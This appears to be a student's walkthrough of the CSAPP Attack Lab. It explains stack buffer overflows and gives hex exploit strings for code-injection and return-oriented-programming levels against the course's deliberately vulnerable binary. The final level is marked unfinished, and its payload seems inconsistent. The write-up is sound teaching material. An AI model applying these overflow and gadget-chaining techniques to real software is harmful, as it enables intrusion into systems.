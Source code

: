 # CSAPP: Attack Lab 

This video is extremely good to understand exploiting stack buffer overflow. [Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)


It is also very important to understand the following stack organzation for a function call. The yellow part is the buffer for callee, in order to overrite into the return statement in blue part, we need to overwrite another 8 bytes. But some assemble code does not use base pointer, so we only need to overwrite another 4 bytes. 

![](stack-func-call.png)

### Part I, Level I

The goal is to when executing `getbuf()` function, making it return to `touch1` function.

Use `objdump -d ctarget > ctarget.asm` to dissemble the code.

`Vim ctarget.asm` to check the code.

![](getbuf_asm.png)

We can find the code `sub 0x28, %rsp`, which is a stack buffer used to read string from input. So we know that the buffer length is `0x28`, and the corresponding decimal value is `40`. 

We can also check the address of `touch1` code, where we find the address is `00000000004017c0`

![](touch1_asm.png)


so we need to overwrite another 4 bytes into buffer in order to return `touch1`, so the total number of bytes is 44.  The last four bytes are `00 40 17 c0`, and the little endian encoding is `c0 17 40 00`

![](touch1_sol.png)


### Part I Level 2

The steps to solve this problem. 

1. Like partI level I, overwrite ret statement to transfer execution into  our injected code.
2. Still put injected code into buffer. 
3. Write injected code 

Injected Assemble Code
```
mov $0x59b997fa %rdi
ret
```

Compile it to get bytes representation 

![](asm-code-b-rep.png)

The byte representation is `48 c7 c7 fa 97 b9 59 c3`, 8 bytes in total. 

And we have 56 bytes in total

8 bytes for injected code.

32 bytes for 0 or any other valuess 

8 bytes for return address to injected code 

8 bytes for return address to touch2 code. 

Injected code is stored in the bottom of buffer, so we can use gdb to get the rsp info. 

![](./rsp_addr_touch2.png)

so the answer is 

```
48 c7 c7 fa 97 b9 59 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```

### Part2 level 3

Compute a string representation of cookie using ASCII

The cookie value is `0x59b997fa`

the ascii bytes are `35 39 62 39 39 37 66 61 00`

The input string organization is similare to level2. 

first 8 bytes for injected code 

then 9 bytes for cookie string

23 bytes for any values

8 bytes to return to injected code 

8 bytes to return to touch3 

```C
48 c7 c7 80 dc 61 55 c3 /*injected code address in 5561dc78*/
35 39 62 39 39 37 66 61 /*cookie string, address in 5561dc80*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /*injected code address*/
fa 18 40 00 00 00 00 00 /*touch 3 address*/
```

But the above string input is not the right answer. The reason is as following 

```
When functions hexmatch and strncmp are called, they push data onto the stack, overwriting
portions of memory that held the buffer used by getbuf. As a result, you will need to be careful
where you place the string representation of your cookie.
```

So we need to change a place to put the cookie string, here , I put cookie string above the touch3 return statement, so we can avoid the cookie string bing overwriten by the rest function calls.  

```C
48 c7 c7 b0 dc 61 55 c3 /*injected code address in 5561dc78*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /*injected code address*/
fa 18 40 00 00 00 00 00 /*touch 3 address*/
35 39 62 39 39 37 66 61 /*cookie string, address in 0x5561dc78 + 0x38 = 0x5561dcb0*/
```

### Part II Level 2

Intuitively, we need to obtain gadgets to generate the following assemble code. 

```
mov $0x59b997fa %rdi
ret
```

The most challenging one is to obtain `0x59b997fa`. The basic solution to obtain this value is making use of `pop`

So we can convert the above code into gadgets as following 

```C
//getbuf
...
ret /*return to gadget 1*/

// gadget 1
popq %rax /**/
ret  /*return to gadget 2*/

// gadget 2
movq %rax, %rdi
ret 
```

Obtain gadget 1 assemble as following. We will need `58 90 c3` with starting address at 0x4019a7 + 4 = `0x4019ab`

![](gadget1.png)

Obtain gadget 2 assemble as following. We will need `48 89 c7 c3` with starting address at 0x4019a0 + 2 = `0x4019a2`

![](gadge2.png)


And then in order to make `0x59b997fa` pop into %rax, we need to overwrite stack. So in total we need to overwrite the addrees of gadget1, data `0x59b997fa`,  then address of gadget2 , address of touch2 into stack. 
```C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  /*the first 40 bytes*/
ab 19 40 00 00 00 00 00  /*address return to gadget 1*/
fa 97 b9 59 00 00 00 00  /*data to pop into rax in gadget 1*/
a2 19 40 00 00 00 00 00  /* address return to gadget2 */
ec 17 40 00 00 00 00 00  /*address return to touch2*/
```

### Part II Level 3
This lab is unfinished. 

The solution is a combination of Part II level 2 and Part I level 3. 

In this solution, gadgets are the same as Part II level 2.

The extra thing to consider is to compute the cookie address in stack. But the challenging is that the stack position is randomized. So a possible solution is to use relative position like `movq %rsp %rdi`

```
movq %rsp %rax
popq
ret 

popq (not rax)
ret 

movq %rax %rdi
ret
```

```C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  /*the first 40 bytes*/
ab 19 40 00 00 00 00 00  /*address return to gadget 1*/
fa 97 b9 59 00 00 00 00  /*data to pop into rax in gadget 1*/
a2 19 40 00 00 00 00 00  /* address return to gadget2 */
fa 18 40 00 00 00 00 00  /*address return to touch2*/
35 39 62 39 39 37 66 61  /*cookie string here */
```














